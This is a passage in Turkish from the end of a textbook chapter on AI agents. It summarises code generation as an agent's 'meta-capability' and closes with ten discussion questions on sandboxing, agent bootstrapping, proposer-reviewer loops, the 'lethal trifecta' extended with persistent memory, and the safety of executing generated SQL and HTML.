- **Düşünme Aracı**: Olasılıksal düşünmenin eksikliklerini telafi etmek için sembolik hesaplama ve kısıt çözümünden yararlanmak
- **İş Kuralı Kısıtları**: İş kurallarını belirsizliksiz ifade etmek, geri alınamaz işlem senaryolarında deterministik bir güvenlik hattı sağlamak—bu güvenlik garantisinin değeri uygulama maliyetini çok aşıyor
- **Multimedya Üretimi**: Bir proposer-reviewer mekanizması aracılığıyla PPT'ler ve videolar gibi çok modlu içerik yaratmak
- **Sistem Adaptörü**: Log ayrıştırma ve sorun teşhisinin tam otomasyonunu elde etmek için format evrimini otomatik olarak takip etmek
- **Üretici UI**: Formları, görselleştirmeleri ve hatta tam özelleştirilebilir uygulamaları dinamik olarak yaratmak, düz metin sınırlamalarından kurtulmak
- **Agent Bootstrapping**: Benzer Agent'ları onarmak ve yaratmak için kod kullanmak, Agent'lar yaratabilen bir Agent gerçekleştirmek

Kodun bir Agent'a değeri şuna indirgenir: aynı anda hem görevleri tamamlama aracı hem de bilgiyi biriktirme, araçları yaratma ve kendini iyileştirme mekanizmasıdır—gerçek bir "meta-yetenek".

Artık üç ayaktan ikisini—context ve tools'u—kapsadık ve kod üretimi tüm araçların en çok yönlüsüdür. Ama bir kilit soru kalıyor: bu tasarım kararlarının işe yarayıp yaramadığını bilimsel olarak nasıl ölçüyoruz? Bir sonraki bölümden itibaren, üçüncü ayağa—modele—dönüyoruz, değerlendirmeyle başlayarak. Bir sonraki bölüm, değerlendirme ortamını kurmaktan ve veri kümeleri tasarlamaktan ödül modellerine ve değerlendirme güdümlü model seçimine kadar eksiksiz bir değerlendirme metodolojisi inşa eder, şimdiye kadar tartışılan her tekniğe nicel doğrulama aracı verir.

## Düşünce Soruları

1. ★★ Kod üretimi bir Agent'ın "meta-yeteneği" olarak adlandırılır. Ancak, kod yürütme güvenlik riskleri getirir—Agent tarafından üretilen kod açıklar, sonsuz döngüler veya kaynak tükenmesi içerebilir. Sandbox izolasyonu bazı sorunları çözebilir ama aynı zamanda kod yeteneklerini de sınırlar (örn. ağa veya dosya sistemine erişememe). Güvenlik ile yetenek arasında optimal dengeyi nasıl bulabiliriz?
2. ★★★ Agent bootstrapping—Agent'lar yaratabilen bir Agent—"zekanın kendi kendini çoğaltmasını" başarır. Ama her bootstrapping yinelemesi yeni önyargılar veya hatalar getirebilir. Bu hatalar nesiller boyunca birikir mi? Bootstrap edilmiş Agent'ların kötüleşmesini nasıl önleyebiliriz?
3. ★★ Bir kod üretim Agent'ı log ayrıştırmayı ele aldığında, format evrimini otomatik olarak takip edebilir. Ama bir format değişikliği kasıtlı bir değişiklik değil bir hataysa, Agent'ın uyum sağlayabilirliği aslında sorunu maskeler. Bir Agent "uyum gerektiren değişiklikler" ile "bildirilmesi gereken anormallikleri" nasıl ayırt etmelidir?
4. ★★ Bu bölüm, PPT üretiminde, video düzenlemede ve log görselleştirmede proposer-reviewer mekanizmasını tekrar tekrar kullanır. Reviewer'ın estetik tercihleri hedef kullanıcınınkinden farklıysa—örneğin, Reviewer bilgi yoğunluğunu makul bulurken kullanıcı çok kalabalık buluyorsa—geri bildirim döngüsü yanlış bir yerel optimumda yakınsayabilir. Kullanıcı tercih geri bildirimi Reviewer döngüsüne nasıl dahil edilebilir?
5. ★★ Bu bölüm, bir Kodlama Agent'ının yürütme ve hata ayıklamadan elde edilen deneyimi kod tabanına geri yatırmasının çeşitli yollarını gösterir—bilgi tabanı dosyalarına yazmak, mimari dokümantasyonu güncellemek, proje talimat dosyalarını korumak ve işlem dizilerini koda sabitlemek. Bu deneyim system prompt içindeki kurallara daha da inceltilirse, kural kümesi zamanla genişleyecektir. Birikmiş kurallar üzerinde "çöp toplama" nasıl gerçekleştirebiliriz—gereksiz veya güncelliğini yitirmiş girdileri belirleyip temizlemek? Bir Agent'ın kendi deneyimini biriktirmesinin bu mekanizması ile Bölüm 8'de tartışılacak system prompt'ların otomatik optimizasyonu arasındaki benzerlikler ve farklar nelerdir?
6. ★ "Uzaktan çalışmaya dost olan ekipler genellikle Yapay Zeka Ajanlarına da dosttur." Ekibiniz veya kuruluşunuz bilgi dokümantasyonu açısından "yapay zekaya hazır" olmaya ne kadar yakın? En büyük engel nedir?
7. ★★★ Simon Willison, Agent'lar için "Ölümcül Üçlüyü" (özel veriye erişim, güvenilmeyen içeriğe maruz kalma ve dış iletişim yetenekleri) önerdi. Bu bölüm dördüncüsünü ekliyor: kalıcı bellek. Dört unsuru da eş zamanlı olarak ele alması gereken bir üretim ortamında, bir güvenlik stratejisini nasıl tasarlardınız?
8. ★★ Artifact kalıbı, bir Agent tarafından üretilen SQL veya frontend kodunun kullanıcının tarayıcısında veya veritabanında doğrudan yürütülmesine izin verir. Ancak, üretilen SQL yıkıcı işlemler yürütebilir ve üretilen HTML açıklar içerebilir. Sistem güvenliği nasıl sağlanabilir?
9. ★★ İş kurallarını araçlar içinde veritabanı gerçeğine dayalı doğrulamalar olarak kodlamak ve modeli çağırmadan önce politika koşullarını kontrol etmeye yönlendirmek için parametre tasarımını kullanmak, özünde Agent davranışını kısıtlamak için kod yapısını kullanır. Bu "kural olarak kod" kalıbının doğal dil kurallarına kıyasla avantajları ve sınırlamaları nelerdir?
10. ★★ Artifact kalıbı, bir Agent'ın SQL veya görselleştirme kodu üretmesine izin verir, bu daha sonra büyük miktarda veriyi işlemek için LLM'i atlayarak doğrudan frontend tarafından yürütülür. Bu "Agent kod üretir, sistem kodu yürütür" iş bölümünün geleneksel "Agent doğrudan yanıtı sağlar" kalıbına kıyasla artıları ve eksileri nelerdir?
